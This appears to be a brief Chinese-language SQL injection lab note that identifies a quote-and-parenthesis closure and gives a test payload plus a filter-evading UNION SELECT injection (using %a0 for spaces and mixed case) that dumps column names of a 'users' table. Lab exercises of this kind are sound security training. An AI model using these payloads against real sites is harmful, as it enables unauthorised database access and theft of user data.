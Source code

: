 网页使用单引号和括号闭合。

```
?id=1') or ('1
测试
```



```
?id=9999')%a0UNiON%a0SELeCT%a01,group_concat(column_name),3%a0FROM%a0information_schema.columns%a0WHERE%a0table_schema='security'%a0AND%a0table_name='users'%a0or%a0('1')=('2
```

 
